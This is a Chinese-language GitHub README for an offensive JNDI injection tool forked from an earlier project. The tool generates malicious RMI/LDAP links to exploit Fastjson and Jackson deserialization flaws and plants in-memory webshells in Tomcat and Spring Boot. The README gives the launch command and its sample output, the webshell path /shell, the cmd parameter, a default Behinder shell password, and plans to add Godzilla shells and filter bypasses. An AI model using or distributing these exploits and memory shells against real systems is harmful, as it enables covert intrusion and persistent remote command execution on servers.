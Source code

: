 ## 介绍

JNDI注入利用工具，生成JNDI链接并启动后端相关服务，可用于Fastjson、Jackson等相关漏洞的验证。

最开始做项目的初衷是因为，遇到一些场景只能用RMI注入，无法使用LDAP注入，但是找了一段的时间之后发现Github中并没有很合心意的RMI注入工具，于是原本想自己做一个RMI注入内存马的工具，参考了一下welk1n佬的项目，结果发现佬写的精妙，可以改动的地方很少了已经，索性直接fork大佬的项目，添加工具。
原仓库地址：https://github.com/welk1n/JNDI-Injection-Exploit

冰蝎内存🐴默认密码:elysium

## 更新功能

### 内存马注入

直接运行jar包，可以看到添加了Tomcat Memshell、Behinder两种内存马（还在更新中）

```shell
$ java -jar JNDI-Injection-Memshell-1.0-SNAPSHOT-all.jar          
[ADDRESS] >> 127.0.0.1
[COMMAND] >> open /Applications/Calculator.app
----------------------------JNDI Links----------------------------
Target environment(Build in JDK whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):
rmi://127.0.0.1:1099/cl2cgx
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://127.0.0.1:1099/knlbmx
ldap://127.0.0.1:1389/knlbmx
Target environment(Tomcat Servlet Memshell):
rmi://127.0.0.1:1099/9tc7hk
ldap://127.0.0.1:1389/9tc7hk
Target environment(Build in JDK 1.7 whose trustURLCodebase is true):
rmi://127.0.0.1:1099/ma0np7
ldap://127.0.0.1:1389/ma0np7
Target environment(Springboot Interceptor Memshell):
rmi://127.0.0.1:1099/fnijcn
ldap://127.0.0.1:1389/fnijcn
Target environment(Behinder Servlet Memshell):
rmi://127.0.0.1:1099/oeczn8
ldap://127.0.0.1:1389/oeczn8

----------------------------Server Log----------------------------
2023-08-28 09:06:01 [JETTYSERVER]>> Listening on 0.0.0.0:8180
2023-08-28 09:06:01 [RMISERVER]  >> Listening on 0.0.0.0:1099
2023-08-28 09:06:01 [LDAPSERVER] >> Listening on 0.0.0.0:1389
```

- Tomcat Servlet Memshell

  - 命令执行Servlet内存马：路径/shell，参数cmd

   ![](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/1.jpg)

- Behinder Servlet Memshell

  - 冰蝎Servlet内存马：路径/shell，密码:elysium

  ![](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/2.jpg)

- Springboot interceptor Memshell

  - springboot的拦截器内存马，在request header中的command为入参执行命令

  

## 待实现

- 添加filter、Interceptor类型的内存马
- 融合groovy的bypass利用链到项目中。
- 更新weblogic以及其他中间件的内存马注入环境
- 增加注入哥斯拉内存马的模块
- 加入websocket内存马



## Star History

[![Star History Chart](https://api.star-history.com/svg?repos=MUYU212/JNDI-Injection-Memshell&type=Date)](https://star-history.com/#MUYU212/JNDI-Injection-Memshell&Date)
